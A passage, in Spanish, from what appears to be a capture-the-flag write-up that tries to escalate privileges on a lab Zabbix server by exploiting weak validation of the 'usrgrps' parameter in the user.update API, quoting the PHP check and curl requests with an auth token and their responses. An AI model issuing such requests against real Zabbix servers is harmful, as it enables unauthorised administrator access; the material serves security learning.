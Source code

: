 Parece que por poder podríamos, pero hay una comprobación para no cambiar nuestro propio rol, esta comprobación es el método `checkHimself`.
```php
private function checkHimself(array $users) {
		foreach ($users as $user) {
			if (bccomp($user['userid'], self::$userData['userid']) == 0) {
				if (array_key_exists('roleid', $user) && $user['roleid'] != self::$userData['roleid']) {
					self::exception(ZBX_API_ERROR_PARAMETERS, _('User cannot change own role.'));
				}

				if (array_key_exists('usrgrps', $user)) {
					$db_usrgrps = DB::select('usrgrp', [
						'output' => ['gui_access', 'users_status'],
						'usrgrpids' => zbx_objectValues($user['usrgrps'], 'usrgrpid')
					]);

					foreach ($db_usrgrps as $db_usrgrp) {
						if ($db_usrgrp['gui_access'] == GROUP_GUI_ACCESS_DISABLED
								|| $db_usrgrp['users_status'] == GROUP_STATUS_DISABLED) {
							self::exception(ZBX_API_ERROR_PARAMETERS,
								_('User cannot add himself to a disabled group or a group with disabled GUI access.')
							);
						}
					}
				}

				break;
			}
		}
	}
```

En este método vemos que se está validando el parámetro `userid` pero no el parámetro `usrgrps` que según la documentación podemos pasarle un Array e intentar especificar el grupo de los administradores para agregarnos al grupo.

En el array se debe contener la ID del grupo mediante el parámetro `usrgrpid`.

Vemos que no nos deja agregarnos al grupo porque supuestamente este no existe, así que primero necesito o saber que grupos me interesan, o simplemente hacer fuerza bruta y agregarme a todos los grupos que existan.
```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.update", "params":{"usrgrps": [{"usrgrpid": 1}], "userid": "3"},"auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 3}'
{"jsonrpc":"2.0","error":{"code":-32602,"message":"Invalid params.","data":"Invalid parameter \"/1/usrgrps/1\": object does not exist."},"id":3}
```

Según la documentación, deberíamos de poder utilizar el método `usergroup.get` para conseguir ver los grupos, pero no tenemos suerte.
```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"usergroup.get", "params": {"output": "extended"}, "auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}'
{"jsonrpc":"2.0","result":[],"id":1}
```
